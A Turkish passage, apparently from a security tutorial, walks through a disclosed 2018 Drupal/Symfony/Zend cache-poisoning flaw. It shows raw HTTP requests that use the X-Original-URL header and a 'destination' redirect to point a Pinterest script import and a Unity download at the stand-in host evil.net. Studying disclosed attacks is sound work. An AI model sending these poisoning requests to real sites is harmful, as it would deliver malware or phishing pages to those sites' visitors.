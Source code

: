 <div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET <span style="color:coral">/?destination<span class="o">=</span>https://evil.net<span class="se">\@</span>business.pinterest.com/</span> HTTP/1.1
Host: business.pinterest.com
X-Original-URL: <span style="color:DodgerBlue">/foo.js?v<span class="o">=</span>1</span>
</code></pre></div></div>

Bu, JavaScript içe aktarma işleminin hedefini ele geçiriyor ve [business.pinterest.com](http://business.pinterest.com/)'da statik olması gereken birkaç sayfa üzerinde tam kontrol imkanı sağlıyor:

```bash
GET /foo.js?v=1 HTTP/1.1
```

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 302 Found
Location: https:/<span style="color:coral">/evil.net<span class="se">\@</span>unity.com/</span>
</code></pre></div></div>

### İç içe Önbellek Zehirlenmesi

Diğer Drupal siteleri genellikle yönlendirmeler yoluyla herhangi bir önemli kaynağı içe aktarmaz. Fakat site harici bir önbellek kullanıyorsa (hemen hemen tüm yüksek trafikli Drupal siteleri gibi), harici önbelleği zehirlemek için dahili önbelleği kullanabiliriz ve bu süreçte herhangi bir yanıtı yeniden yönlendirmeye dönüştürebiliriz. Bu iki aşamalı bir saldırıdır. İlk olarak, **/redir**'i kötü amaçlı yönlendirmemizle değiştirmek için dahili önbelleği zehirliyoruz:

```bash
GET /?destination=https://evil.net\@store.unity.com/ HTTP/1.1
Host: store.unity.com
X-Original-URL: /redir
```

Daha sonra, **/download?v=1**'i önceden zehirlenmiş **/redir**'imizle değiştirmek için harici önbelleği zehirliyoruz:

```bash
GET /download?v=1 HTTP/1.1
Host: store.unity.com
X-Original-URL: /redir
```

Sonuç olarak, unity.com'da 'setup indir'e tıklamak, evil.net'ten kötü amaçlı yazılımların indirilmesine neden olur. Bu teknik aynı zamanda RSS akışlarına sahte girişler eklemek, oturum açma sayfalarını kimlik avı sayfalarıyla değiştirmek ve dinamik script üzerinden stored XSS'i de içeren çok sayıda başka saldırı için de kullanılabilir. 

Bu zafiyet 2018-05-29 tarihinde Drupal, Symfony ve Zend ekiplerine bildirilip  [SA-CORE-2018-005](https://www.drupal.org/SA-CORE-2018-005), [CVE-2018-14773](https://symfony.com/blog/cve-2018-14773-remove-support-for-legacy-and-risky-http-headers), [ZF2018-01](https://framework.zend.com/security/advisory/ZF2018-01) referans numaraları tanımlanmıştır.

Olası yaklaşımlar konusunda gözümüzü açması açından güzel bir örnek.

Şimdiye kadar ele aldığımız pratik yaklaşımlara ek olarak aşağıdaki araştırmayı da kısaca dahil ederek devam edebilliriz
